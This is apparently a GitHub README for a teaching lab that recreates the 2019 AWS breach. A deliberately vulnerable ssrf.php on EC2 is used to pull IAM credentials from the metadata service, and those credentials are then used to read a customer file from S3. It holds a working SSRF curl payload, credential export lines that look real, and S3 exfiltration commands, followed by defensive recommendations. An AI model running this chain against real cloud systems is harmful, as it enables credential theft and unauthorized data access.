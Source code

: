 # 🌟 2019 AWS Data Breach Demo Lab Guide 🌟

## 🌐 Overview

This lab demonstrates an attack based on the SSRF (Server-Side Request Forgery) vulnerability, which can be used to steal AWS credentials from an Amazon EC2 instance and further access sensitive data in S3 buckets. The goal is to understand the potential impact of SSRF vulnerabilities in cloud environments and explore best practices for securing cloud infrastructure.

## 📖 The Story

In this lab, we simulate a real-world scenario where an attacker exploits a misconfigured web application on an EC2 instance. The vulnerable application allows the attacker to access the EC2 metadata service, retrieve IAM credentials, and subsequently gain unauthorized access to an S3 bucket. By performing this lab, we learn how simple misconfigurations can lead to serious security breaches in cloud environments.

![The Story](images/story.jpg)

## 🛠️ Lab Setup

### 🔧 Prerequisites

- An AWS user account with appropriate permissions.
- IAM user with permissions to create and manage resources.
- An EC2 instance running on AWS.
- A VPC to host the EC2 instance.
- An S3 bucket to store and access data.
- The EC2 instance must be accessible via the public internet.

![Lab Setup](images/lab.png)

### 📝 Lab Setup Steps

1. **📂 Clone the Repository**: Clone the repository that contains the necessary configuration files.
   
   ```sh
   git clone https://github.com/jasonYuRong/2019-AWS-Data-Breach-Demo.git
   ```

2. **📁 Navigate to the Directory**: Change into the cloned repository directory.
   
   ```sh
   cd 2019-AWS-Data-Breach-Demo
   ```

3. **🚀 Apply Terraform Configuration**: Use Terraform to set up the EC2 instance with the required configurations. This will automatically deploy Apache HTTP server and the vulnerable `ssrf.php` file.
   
   ```sh
   terraform apply
   ```

   Follow the prompts to approve the infrastructure changes. Terraform will create the EC2 instance along with the necessary configurations, including deploying Apache and the `ssrf.php` script.

## 🎯 Goal

The main goal of this lab is to gain unauthorized access to the S3 bucket by exploiting the SSRF vulnerability. Specifically, you will access the EC2 metadata service, obtain temporary AWS credentials, and use those credentials to retrieve an object from the S3 bucket.

## 💡 Solution & Walkthrough

### Step 1: 🚦 Launch an EC2 Instance and Ensure Accessibility

Make sure you have an AWS EC2 instance running with the following attributes:

- **Public IP**: A public IP address is assigned so it can be accessed from the internet.
- **IAM Role**: Configured with an IAM role (`ec2_role`) that has permissions to access S3 for the demo.

### Step 2: 🔍 Set Up the SSRF Vulnerability Environment

The Terraform script has already set up Apache HTTP server and deployed a vulnerable PHP file `ssrf.php` on your EC2 instance. This file allows an attacker to exploit SSRF to access resources that should not be accessible externally, such as the EC2 metadata service.

Ensure that the HTTP server is running and accessible via the public IP of your EC2 instance.

### Step 3: 🚨 Exploit the SSRF Vulnerability to Access EC2 Metadata

Now you can exploit the SSRF vulnerability to get the IAM role credentials from the EC2 metadata service.

Run the following `curl` command:

```sh
curl http://<EC2_public_ip>/ssrf.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2_role
```

- `<EC2_public_ip>`: Replace with your EC2 public IP.
- `169.254.169.254`: This is the IP address of the AWS EC2 metadata service, which is only accessible from within the instance.

### Step 4: 🗝️ Extract AWS Credentials and Set Environment Variables

After running the above `curl` command, you should see the temporary credentials for the IAM role, which include:
- `AWS_ACCESS_KEY_ID`
- `AWS_SECRET_ACCESS_KEY`
- `AWS_SESSION_TOKEN`

Next, set these credentials as environment variables to use AWS CLI for further operations. For example:

```sh
export AWS_ACCESS_KEY_ID="ASIAZDZTCACO7BAZ7KEE"
export AWS_SECRET_ACCESS_KEY="S7z6biyOscdzDEVuLLLXa0GwHYRdN89ivkMy/4Dz"
export AWS_SESSION_TOKEN="IQoJb3JpZ2luX2VjEFYaCXV..."
```

### Step 5: 📥 Use AWS CLI to Access the S3 Bucket

Using the credentials set in the previous step, you can now use AWS CLI to access the specified S3 bucket.

For example, download a file from the S3 bucket:

```sh
aws s3 cp s3://jhu-en-650-603/customer.json - | cat
```

This command downloads the `customer.json` file from the S3 bucket and displays its contents in the terminal.

### 🎉 Lab Completion

At this point, we have successfully exploited an SSRF vulnerability in the EC2 instance to access the metadata service and used the retrieved credentials to access sensitive data in S3.

## 🔒 Reflection and Security Recommendations

1. **🚫 Restrict Metadata Access**:
   - Use `Instance Metadata Service v2 (IMDSv2)` to enhance security and prevent simple HTTP requests from accessing metadata.
   - In the instance's Terraform configuration, enforce IMDSv2 by setting:
     ```hcl
     metadata_options {
       http_tokens = "required"
       http_put_response_hop_limit = 1
     }
     ```

2. **🔑 Principle of Least Privilege**:
   - The IAM role assigned to the EC2 instance should follow the principle of least privilege, granting only the necessary S3 permissions to avoid over-privileged access.

3. **🛡️ Web Application Firewall (WAF)**:
   - Use a WAF to prevent SSRF attacks. WAFs can effectively block malicious requests to your web application.

4. **📝 Code Auditing and Input Validation**:
   - Ensure proper validation of user inputs to avoid directly using user input as part of a URL request.

## 📜 Lab Summary

This lab demonstrated the dangers of SSRF attacks in a cloud environment, showcasing the potential to leverage such vulnerabilities to further attack AWS infrastructure. The goal was to exploit SSRF to gain unauthorized access to S3 and retrieve sensitive data. Hopefully, this demo helps you better understand how to prevent similar security risks and apply the principle of least privilege and secure configurations.
